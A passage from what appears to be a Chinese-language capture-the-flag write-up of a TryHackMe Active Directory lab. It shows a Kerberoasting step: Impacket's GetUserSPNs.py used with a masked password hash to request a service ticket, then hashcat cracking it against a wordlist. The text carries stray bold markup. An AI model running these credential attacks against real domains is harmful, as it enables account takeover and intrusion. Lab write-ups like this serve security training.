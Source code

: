 ****柳德米拉的旗帜。****

# ****Kerberoasting****

****因为我们有一个有效的散列，所以我可以寻找支持的 SPN，并使用 Impacket 中的“ ***GetUserSPNs.py*** ”工具获得 SPN 的 TGS 票。****

```
**sudo python3 GetUserSPNs.py -dc-ip 10.10.32.193 raz0rblack.thm/lvetrova -hashes f220d3988deb3******:f220d3988deb3***** -request**
```

****这成功地为用户“ ***xyan1d3*** ”提供了一个 TGS 散列，现在我可以使用 **hashcat** 来获取密码。****

```
**hashcat64.exe -m 13100 hash.txt rockyou.txt**
```

****![](img/1bf12e7e4d04ef6933977af980237799.png)****
